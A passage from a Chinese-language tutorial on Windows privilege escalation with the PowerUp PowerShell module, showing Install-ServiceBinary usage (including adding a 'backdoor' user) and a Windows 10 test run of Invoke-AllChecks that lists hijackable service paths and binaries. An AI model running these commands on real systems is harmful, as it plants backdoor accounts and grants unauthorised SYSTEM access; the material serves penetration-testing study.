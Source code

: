**Install-ServiceBinary**

通过Write-ServiceBinary写一个C#的服务用来添加用户。

执行方式：

```
PS C:\> Install-ServiceBinary -ServiceName DHCP
PS C:\> Install-ServiceBinary -ServiceName VulnSVC -UserName "TESTLAB\john"
PS C:\> Install-ServiceBinary -ServiceName VulnSVC -UserName backdoor -Password Password123!
PS C:\> Install-ServiceBinary -ServiceName VulnSVC -Command "net ..."

```

> `Write-ServiceBinary`与`Install-ServiceBinary`不同的是前者生成可执行文件，后者直接安装服务。

0x03 实战提权
=========

* * *

测试环境为win10。平常用的虚拟机，并没有特意去配置存在漏洞的环境，所以并不是所有的模块均可以使用。实际测试可以根据实际环境来调整。此次测试并未使用内核漏洞来提权。

首先添加低权限测试账号，使用管理员身份运行cmd，添加测试账号：

```
C:\Windows\system32>net user powerup 1 /add

```

查看powerup账号权限：

![Alt text](http://drops.javaweb.org/uploads/images/ec7aff04f8a04ee5e42b42f41bc770340ff93948.jpg)

使用powerup账号登陆系统，加载Powerup：

![Alt text](http://drops.javaweb.org/uploads/images/5559646558d1d2897ab9c880e03a8d0fb98790fb.jpg)

执行Invoke-AllChecks:

```
PS E:\> Invoke-AllChecks

```

执行以后找到下列问题：

```
[*] Checking for unquoted service paths...


ServiceName   : CDROM_Detect
Path          : C:\Program Files\4G USB Modem\4G_Eject.exe
StartName     : LocalSystem
AbuseFunction : Write-ServiceBinary -ServiceName 'CDROM_Detect' -Path <HijackPath>

ServiceName   : hMailServer
Path          : C:\Program Files (x86)\hMailServer\Bin\hMailServer.exe RunAsService
StartName     : LocalSystem
AbuseFunction : Write-ServiceBinary -ServiceName 'hMailServer' -Path <HijackPath>

[*] Checking service executable and argument permissions...

ServiceName    : wampapache
Path           : "c:\wamp\bin\apache\apache2.2.17\bin\httpd.exe" -k runservice
ModifiableFile : c:\wamp\bin\apache\apache2.2.17\bin\httpd.exe
StartName      : LocalSystem
AbuseFunction  : Install-ServiceBinary -ServiceName 'wampapache'

ServiceName    : wampmysqld
Path           : c:\wamp\bin\mysql\mysql5.5.8\bin\mysqld.exe wampmysqld
```